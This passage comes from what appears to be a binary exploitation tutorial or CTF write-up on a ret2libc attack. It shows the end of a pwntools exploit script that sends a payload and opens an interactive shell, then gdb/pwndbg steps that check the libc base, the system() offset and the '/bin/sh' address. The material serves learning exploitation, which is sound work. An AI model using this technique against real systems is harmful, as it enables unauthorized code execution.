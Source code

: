 ```python
# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```
{% endcode %}

<mark style="color:yellow;">Be sure to populate the variables with the proper addresses/offsets</mark>.

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption><p>Successful automated exploit</p></figcaption></figure>

### Analyzing the Payload in `gdb`

Throwing our program back in `gdb` and viewing what is going on is pretty cool stuff. <mark style="color:yellow;">It allows you to gain a more intuitive understanding of what is going on in memory and how your exploit works if you ever needed to troubleshoot it</mark>.

Set a breakpoint for main with `b main`.

Run the binary with `r`.

Great, <mark style="color:yellow;">we can now start examining our addresses and what data is located within them</mark>.

Examing `libc` base address:

```
pwndbg> x 0xf7d81000
0xf7d81000:     0x464c457f
```

<mark style="color:green;">**In English**</mark>: `x` is examine, and the address is our `libc` base address.

Examine `system()` minus the offset of `system()`:

```
pwndbg> x/s 0xf7dc9150 - 0x48150
0xf7d81000:     "\177ELF\001\001\001\003"
```

<mark style="color:green;">**In English**</mark>: `x` is examine, `/s` is convert to string, and the offset is that of `system()`.

If you see <mark style="color:yellow;">`ELF`</mark>, this means we are simply at the <mark style="color:yellow;">base of the binary</mark> and that everything is aligning properly.

<mark style="color:yellow;">Now this part is interesting</mark>, remember when I said above in the stack diagram that was illustrating the overflow?

So in Step 3, <mark style="color:yellow;">the address is a pointer</mark>, <mark style="color:yellow;">which means if we print out the data in hex</mark>, <mark style="color:yellow;">we will get a string back</mark>. So there is no need to examine/convert to a string!

```
pwndbg> x 0xf7f3e0f5
0xf7f3e0f5:     "/bin/sh"
```
